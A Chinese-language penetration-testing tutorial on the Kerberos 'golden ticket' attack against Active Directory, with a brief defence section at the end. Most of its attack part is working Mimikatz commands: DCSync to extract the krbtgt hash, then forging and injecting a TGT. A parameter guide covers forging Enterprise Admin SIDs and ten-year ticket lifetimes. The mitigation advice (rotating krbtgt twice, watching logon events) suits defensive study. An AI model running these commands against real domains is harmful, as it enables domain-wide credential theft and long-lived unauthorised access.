







## 黄金票据

### 概念

在域渗透中，kerberos协议认证过程中，KDC在AS_REP流程中返回TGT是通过krbtgt用户的HASH加密

在获取到krbtgt用户的HASH之后，那么就可以伪造TGT，后续所有的操作都是默认KDC允许的，这个伪造的TGT就是**黄金票据**

**使用黄金票据，通常在拿下域控后，用来作权限维持的一种方式。因为krbtgt域账户的密码基本不会更改，即使域管密码被修改，它也不会改变**

> [!NOTE]
>
> 黄金票据特点
>
> 1. 与域控制器没有AS-REQ或AS-REP通信
> 2. 需要krbtgt用户的hash（KDC Hash）
> 3. 由于黄金票据是伪造的TGT，它作为TGS-REQ的一部分被发送到域控制器以获得服务票据

`Kerberos黄金票据`是`有效`的`TGT Kerberos票据`，因为它是由`域Kerberos帐户（KRBTGT）加密`和`签名`的。`TGT`仅用于向`域控制器`上的`KDC服务`证明`用户`已被其他`域控制器认证`。`TGT`被`KRBTGT密码散列加密`并且可以被`域`中的任何`KDC服务解密`的

### 漏洞利用

创建黄金票据需要知道以下信息：

1. `/admin` 要伪造的域用户（这里一般使用administrator）
2. `/domain` 域名称
3. `/sid` 域的SID值（域成员SID值去掉最后一个-后面的内容）
4. `/krbtgt` 域的krbtgt账户的NTLM HASH
5. `ticket` 生成的票据名称

#### 获取krbtgt的SID和hash值

在有域管理员权限的机器上执行（DCSync是模拟域控制器进行账号密码同步的一种攻击方式，默认情况下，只有域管理员、域控制器管理员等有权利用DCSync同步域内密码）

```shell
mimikatz log "lsadump::dcsync  /domain:god.org /user:krbtgt"
```



```
NTLM HASH : 58e91a5ac358d86513ab224312314061
domain: god.org
SID: S-1-5-21-2952760202-1353902439-2381784089
```

#### 生成票据

获得`SID`和`hash`之后，就能生成票据了，在任意一台域用户中的`mimikatz`中进行操作（主要是制作出票据之后需要导入）

```shell
# 清除票据缓存
kerberos::purge
# 生成票据
kerberos::golden /admin:Administrator /domain:god.org /sid:S-1-5-21-2952760202-1353902439-2381784089 /krbtgt:58e91a5ac358d86513ab224312314061 /ticket:Administrator.kiribi
# 导入票据
kerberos::ptt Administrator.kiribi

# 也可以这条命令直接生成并导入
# kerberos::golden /admin：ADMIINACCOUNTNAME /domain:DOMAINFQDN /sid:DOMAINSID /krbtgt:KRBTGTPASSWORDHASH /ptt

# 查看票据
kerberos::list
```

当没有票据的时候，访问`owa`主机的C盘无法访问



生成票据并注入票据



查看当前注入的票据



使用注入的黄金票据直接访问`owa`主机的磁盘，并在客户端生成了TK票（服务票）



也可以使用`net use`建立连接





在获得域控后，通过伪造票据实际上，我们可以伪造成任何一个用户，但是一般情况下，我们伪造域控管理员的票据就好了，用于权限提升，权限维持，利用黄金票据做权限维持的杀伤力还是很大

#### 补充说明

在`TGT`的使用期限超过`20`分钟之前，`域控制器KDC服务`不会`验证TGT`中的`用户帐户`，这意味着我们`可以使用`已`禁用`/`删除`的`帐户`，甚至可以使用`Active Directory`中`不存在`的`虚构帐户`。

由于在`域控制器`上由`KDC服务`生成`票证`时会在`票证`上设置`域Kerberos策略`，因此当提供`票证`时，`系统`会`信任票证`的`有效性`。这意味着即使`域策略`声明`Kerberos登录票证（TGT）`仅有效期为`10`个小时，如果`票证`声明其有效期为`10`年，则是`10`年。

该`KRBTGT帐户密码`从`不更改`*和直到`KRBTGT密码被更改（两次）`，我们可以`创建黄金票据`。注意，即使`模拟`的`用户`更改了`密码`，为`模拟用户而创建的黄金票据也会保`留。

`黄金票据`可以绕过了`SmartCard身份验证`要求，因为它`绕过了DC`在创建`TGT`之前执行的`常规检查`。

`黄金票证（TGT）`可以在任何`计算机`上生成和使用，即使其中一台未加入`域`也是可以的

Mimikatz创建黄金票据的命令是" `kerberos :: golden`"

```shell
mimikatz "kerberos::golden /domain:<域名> /sid:<域SID> /krbtgt:<KRBTGT NTLM Hash> /user:<任意用户名> /ptt" exit
```

```shell
/domain -----完整的域名，在这个例子中：“lab.adsecurity.org”

/sid ----域的SID,在这个例子中：“S-1-5-21-1473643419-774954089-2222329127”

/sids --- AD森林中账户/组的额外SID，凭证拥有权限进行欺骗。通常这将是根域Enterprise Admins组的“S-1-5-21-1473643419-774954089-5872329127-519”值。

/user ---伪造的用户名

/groups（可选）---用户所属的组RID（第一组是主组）。添加用户或计算机帐户RID以接收相同的访问权限。默认组：513,512,520,518,519为默认的管理员组。

/krbtgt---域KDC服务帐户（KRBTGT）的NTLM密码哈希值。用于加密和签署TGT。

/ticket（可选） - 提供一个路径和名称，用于保存Golden Ticket文件以便日后使用或使用/ptt立即将黄金票据插入内存以供使用。

/ptt - 作为/ticket的替代品 - 使用它来立即将伪造的票据插入到内存中以供使用。

/id（可选） - 用户RID。Mimikatz默认值是500（默认管理员帐户RID）。

/startoffset（可选） - 票据可用时的起始偏移量（如果使用此选项，通常设置为-10或0）。Mimikatz默认值是0。

/endin（可选） - 票据使用时间范围。Mimikatz默认值是10年（〜5,262,480分钟）。Active Directory默认Kerberos策略设置为10小时（600分钟）。

/renewmax（可选） - 续订最长票据有效期。Mimikatz默认值是10年（〜5,262,480分钟）。Active Directory默认Kerberos策略设置为7天（10,080分钟）。

/sids（可选） - 设置为AD林中企业管理员组（ADRootDomainSID）-519）的SID，以欺骗整个AD林（AD林中每个域中的AD管理员）的企业管理权限。

/aes128 - AES128密钥

/aes256 - AES256密钥

黄金票默认组：

域用户SID：S-1-5-21 <DOMAINID> -513

域管理员SID：S-1-5-21 <DOMAINID> -512

架构管理员SID：S-1-5-21 <DOMAINID> -518

企业管理员SID：S-1-5-21 <DOMAINID> -519（只有在森林根域中创建伪造票证时才有效，但为AD森林管理员权限添加使用/sids参数）

组策略创建者所有者SID：S-1-5-21 <DOMAINID> -520

命令格式如下：

kerberos :: golden /user：ADMIINACCOUNTNAME /domain：DOMAINFQDN /id：ACCOUNTRID /sid：DOMAINSID /krbtgt：KRBTGTPASSWORDHASH /ptt

命令示例：
.\mimikatz "kerberos::golden  /user:DarthVader  /domain:rd.lab.adsecurity.org  /id:500 /sid:S-1-5-21-135380161-102191138-581311202 /krbtgt:13026055d01f235d67634e109da03321  /ptt" exit
```


### 防御方案

1. 限制域管理员登录到除域控制器和少数管理服务器以外的任何其他计算机。这降低攻击者通过横向扩展，获取域管理员的账户，获得访问域控制器的Active Directory的ntds.dit的权限。如果攻击者无法访问AD数据库（ntds.dit文件），则无法获取到KRBTGT帐户密码
2. 建议定期更改KRBTGT密码。更改一次，然后让AD备份，并在12到24小时后再次更改它。这个过程应该对系统环境没有影响。这个过程应该是确保KRBTGT密码每年至少更改一次的标准方法。
3. 一旦攻击者获得了KRBTGT帐号密码哈希的访问权限，就可以随意创建黄金票据。通过**快速更改KRBTGT密码两次，使任何现有的黄金票据（以及所有活动的Kerberos票据）失效**。这将使所有Kerberos票据无效，并消除攻击者使用其KRBTGT创建有效金票的能力。
4. 监视异常的Kerberos活动，例如Windows登录/注销事件（事件ID 4624、4672、4634）中的格式错误或空白字段，TGT中的RC4加密以及TGS请求，而无需前面的TGT请求。
5. 监视TGT票证的生存期，以获取与默认域持续时间不同的值。

